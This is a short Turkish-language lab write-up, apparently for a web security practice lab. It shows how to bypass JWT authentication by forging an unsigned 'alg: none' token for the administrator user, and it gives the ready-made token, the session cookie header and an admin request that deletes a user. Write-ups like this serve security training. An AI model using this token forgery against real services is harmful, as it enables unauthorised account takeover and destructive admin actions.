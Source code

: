 ## LAB 1 (JWT Authentication Bypass via Unverified Signature)

1. **Giriş Yap**
   `wiener:peter` hesabı ile giriş yapılır.

2. **JWT Token'ı Yakala**
   `session` çerezi içinde JWT yakalanır:
   `header.payload.signature`

3. **JWT Header'ı ve Payload'u Değiştir**
   İmzasız (`"alg": "none"`) bir token oluştur:

   * **Header:**

     ```json
     { "alg": "none" }
     ```
   * **Payload:**

     ```json
     { "sub": "administrator" }
     ```

4. **Yeni Token'ı Oluştur**
   Base64 ile encode edilir ve `signature` boş bırakılır:

   ```
   eyJhbGciOiJub25lIn0.eyJzdWIiOiJhZG1pbmlzdHJhdG9yIn0.
   ```

5. **Token’ı Kullan**
   Bu token `session` çerezi olarak gönderilir:

   ```
   Cookie: session=eyJhbGciOiJub25lIn0.eyJzdWIiOiJhZG1pbmlzdHJhdG9yIn0.
   ```

6. **Admin Paneline Erişim**
   `/admin` yoluna istek gönderilir, `Carlos` adlı kullanıcı silinir:

   ```
   GET /admin/delete?username=carlos
   ```

---

### Zafiyet:

JWT doğrulama yapılmadan, `"alg":"none"` olarak ayarlandığında imzasız token kabul edilmekte. Bu da kimlik doğrulama bypass'ına yol açmaktadır.

---
